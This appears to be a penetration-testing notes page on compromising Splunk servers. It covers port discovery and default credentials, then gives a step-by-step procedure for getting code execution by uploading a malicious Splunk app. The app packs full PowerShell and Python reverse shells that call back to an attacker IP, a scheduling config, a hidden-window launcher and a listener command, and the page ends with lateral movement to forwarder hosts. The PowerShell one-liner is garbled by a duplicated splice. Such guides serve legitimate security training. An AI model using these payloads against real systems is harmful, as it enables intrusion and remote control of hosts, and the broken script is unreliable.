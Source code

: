 # Splunk

Typically used as a SIEM tool for security monitoring and sometimes business analytics. This is typically encounter on the internal portion of a pentest. The biggest focus of Splunk during an assessment would be weak or null authentication because admin access to Splunk gives us the ability to deploy custom applications that can be used to quickly compromise a Splunk server and possibly other hosts in the network depending on the way Splunk is set up.

> Splunk is typically running as ROOT or NT AUTHORITY/SYSTEM on the servers it is installed on, so RCE can be powerful.&#x20;

### Discovery/Footprinting&#x20;

Splunk runs by default on port 8000.

```shell-session
sudo nmap -sV 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 08:43 EDT
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

> when accessing the instance, splunk typically uses https.\
>

On older versions of Splunk, the default credentials are `admin:changeme`

### Splunk Enterprise Trial

The Splunk Enterprise trial becomes a free version after 60 days without requiring authentication. Its not uncommon to be installed as part of a POC or trial and forgotten about. fs

Once logged in to Splunk (or having accessed an instance of Splunk Free), we can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications.

### Code Execution via built in functionality&#x20;

We can use the following package to install a malicious application on splunk to achieve code execution:&#x20;

[https://github.com/0xjpuff/reverse\_shell\_splunk](https://github.com/0xjpuff/reverse_shell_splunk)\
\
1\. Create a directory with following structure:&#x20;

```shell-session
splunk_shell/
├── bin
└── default

# Bin will contain our payload scripts, default will contain inputs.conf file
```

2. Create our Payloads&#x20;
   1.  PowerShell (Windows) run.ps1

       ```powershell-session
       #A simple and small reverse shell. Options and help removed to save space. 
       #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
       $client = New-Object System.Net.Sockets.TCPClient$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
       ```
   2.  Python (Linux) rev.py&#x20;

       ```python
       import sys,socket,os,pty

       ip="10.10.14.15"
       port="443"
       s=socket.socket()
       s.connect((ip,int(port)))
       [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
       pty.spawn('/bin/bash')
       ```
3.  Create inputs.conf, which defines which scripts are ran and the interval&#x20;

    ```shell-session
    [script://./bin/rev.py]
    disabled = 0  
    interval = 10  
    sourcetype = shell 

    [script://.\bin\run.bat]
    disabled = 0
    sourcetype = shell
    interval = 10
    ```
4.  Create run.bat&#x20;

    ```shell-session
    @ECHO OFF
    PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
    Exit
    ```
5.  Tar the package&#x20;

    ```shell-session
    tar -cvzf updater.tar.gz splunk_shell/
    ```
6.  start listener&#x20;

    ```shell-session
    sudo nc -lnvp 443
    ```
7. Upload App
   1.

       <figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

       <figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Lateral Movement&#x20;

If the splunk host is a deployment server, we can possibly achieve RCE on any other hosts with universal splunk forwarders installed on them. our package must  be placed in `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.



